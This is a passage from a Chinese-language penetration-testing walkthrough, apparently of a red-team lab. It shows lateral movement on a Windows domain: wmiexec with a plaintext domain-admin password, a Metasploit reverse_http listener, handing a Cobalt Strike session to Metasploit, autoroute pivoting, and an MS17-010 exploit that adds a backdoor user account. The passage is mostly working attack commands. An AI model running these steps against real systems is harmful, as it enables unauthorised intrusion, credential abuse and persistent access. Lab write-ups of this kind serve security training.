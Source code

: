 ![截图](580930c37489d38c1929a22d92b40c3b.png)

#### 2、利用wmi上线

由于我们前面探测了主机开了135和445端口，因此我们这里可以尝试一下能不能利用wmi来反弹个shell：

```cmd
wmiexec.exe god/administrator:Hongrisec@2019@192.168.52.141
```

![截图](022c34c66a1cd60da48c4c38556f131f.png)

#### 3、利用漏洞-ms17-010

这里，我们前面也探测到有445端口，因此我们还可以继续试试看能不能利用ms17-010来获取对应的权限。

先在kali上开启msf并设置监听，以便后续cs传来的权限：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

然后在cs上转移权限：（监听器名称为msf）

```shell
spawn msf
```

![截图](9c2c2574977e14e9f07608497f6f39e4.png)

然后进一步地，我们设置监听路由：

```shell
run post/multi/manage/autoroute
run autoroute -p
```

![截图](696f252994a2052596d4bc87f214cb54.png)

然后退出，准备开始利用漏洞：

```shell
bg
```

```shell
search ms17
```

![截图](d9847bc826608e6e91866f419e05c6b4.png)

```shell
use 2
set rhost 192.168.52.138
set command net user yuan123 QWEasd123 /add
run
```
